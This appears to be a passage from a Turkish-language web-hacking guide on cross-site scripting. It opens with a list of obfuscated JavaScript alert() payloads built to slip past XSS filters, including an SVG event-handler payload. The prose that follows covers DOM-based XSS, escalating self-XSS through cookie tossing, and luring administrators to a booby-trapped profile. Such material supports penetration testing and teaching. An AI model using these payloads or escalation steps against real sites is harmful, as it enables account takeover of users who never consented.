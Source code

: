 ````javascript
this[`al`+/ert/.source]`1`
[alert][0].call(this,1)
window['a'+'l'+'e'+'r'+'t']()
window['a'+'l'+'e'+'r'+'t'].call(this,1)
top['a'+'l'+'e'+'r'+'t'].apply(this,[1])
(1,2,3,4,5,6,7,8,alert)(1)
x=alert,x(1)
[1].find(alert)
top["al"+"ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
al\u0065rt`1`
top['al\145rt'](1)
top['al\x65rt'](1)
top[8680439..toString(30)](1)
<svg><animate onbegin=alert() attributeName=x></svg>
````
## **DOM zafiyetleri**

**JS kodu**, **bir saldırgan tarafından kontrol edilen güvensiz verileri** kullanıyor, örneğin `location.href`. Bir saldırgan, bunu kullanarak rastgele JS kodu çalıştırabilir.\
**Açıklamanın genişletilmesi nedeniyle** [**DOM zafiyetleri bu sayfaya taşındı**](dom-xss.md)**:**

{{#ref}}
dom-xss.md
{{#endref}}

Orada **DOM zafiyetlerinin ne olduğunu, nasıl tetiklendiğini ve nasıl istismar edileceğini** detaylı bir şekilde bulacaksınız.\
Ayrıca, **bahsedilen yazının sonunda** [**DOM Clobbering saldırıları hakkında**](dom-xss.md#dom-clobbering) bir açıklama bulmayı unutmayın.

### Self-XSS'i Yükseltme

### Cookie XSS

Eğer bir XSS'i bir çerezin içinde yükleyerek tetikleyebiliyorsanız, bu genellikle bir self-XSS'dir. Ancak, eğer **XSS için savunmasız bir alt alan adı** bulursanız, bu XSS'i kullanarak tüm alan adında bir çerez enjekte edebilir ve ana alan adında veya çerez XSS'ye savunmasız diğer alt alan adlarında çerez XSS'i tetikleyebilirsiniz. Bunun için çerez atma saldırısını kullanabilirsiniz:

{{#ref}}
../hacking-with-cookies/cookie-tossing.md
{{#endref}}

Bu tekniğin harika bir istismarını [**bu blog yazısında**](https://nokline.github.io/bugbounty/2024/06/07/Zoom-ATO.html) bulabilirsiniz.

### Oturumunuzu yöneticilere gönderme

Belki bir kullanıcı profiline yöneticilerle paylaşabilir ve eğer self XSS kullanıcının profilindeyse ve yönetici buna erişirse, zafiyeti tetikleyecektir.
